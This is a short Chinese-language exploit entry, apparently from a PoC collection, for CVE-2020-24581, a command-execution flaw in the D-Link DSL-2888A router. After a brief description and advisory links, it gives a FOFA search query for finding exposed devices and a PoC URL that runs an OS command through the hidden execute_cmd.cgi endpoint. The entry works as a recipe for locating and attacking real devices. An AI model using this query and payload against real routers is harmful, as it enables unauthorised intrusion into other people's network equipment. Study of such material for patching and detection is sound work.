


# D-link DSL-2888A 远程代码执行漏洞 (CVE-2020-24581)

D-link DSL-2888A是中国D-link公司的一款统一服务路由器。D-Link DSL-2888A AU_2.31_V1.1.47ae55之前版本存在安全漏洞，该漏洞源于包含一个execute cmd.cgi特性(不能通过web用户界面访问)，该特性允许经过身份验证的用户执行操作系统命令。

PS:需身份验证

FOFA:

```
"DSL-2888A"
```

**PoC:**

```
http://DeviceIP/cgi-bin/execute_cmd.cgi?timestamp=1589333279490&cmd=ls
```







ref：

* http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202012-1466
* https://www.trustwave.com/en-us/resources/security-resources/security-advisories/?fid=28241
* https://forum.ywhack.com/thread-115030-1-1.html
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/d-link-multiple-security-vulnerabilities-leading-to-rce/